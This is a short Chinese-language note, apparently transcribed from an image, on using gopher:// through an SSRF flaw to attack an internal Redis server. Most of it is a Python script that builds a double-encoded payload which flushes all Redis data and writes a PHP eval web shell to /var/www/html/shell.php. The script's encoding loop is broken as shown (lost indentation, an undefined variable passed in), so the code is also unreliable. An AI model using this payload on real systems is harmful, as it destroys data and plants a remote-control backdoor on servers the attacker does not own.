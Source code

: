 gopher://协议经常用来打内网的各种应用如mysql redis等。一般要用一些工具来进行构造payload 如gopherus等

之前用来打redis内网的脚本如下

#!/usr/bin/python

# -*- coding: UTF-8 -*-

import urllib.request

from urllib.parse import quote

url = "[http://192.168.239.78:41403/index.php?url="](http://192.168.239.78:41403/index.php?url=") #windows上搭建的ssrf漏洞页面

gopher = "gopher://0.0.0.0:6379/_" #/var/www/html

#auth nonono

# 攻击脚本

data = """

flushall

set test "\\n\\n<?php @eval($_POST[x]);?>\\n\\n"

config set dir /var/www/html

config set dbfilename shell.php

save

quit

"""

def encoder_url(data):

encoder = ""

for single_char in data:

# 先转为ASCII

encoder += str(hex(ord(single_char)))

encoder = encoder.replace("0x","%").replace("%a","%0d%0a")

return encoder

# 二次编码

encoder = encoder_url(encoder_url(data))

print(encoder)
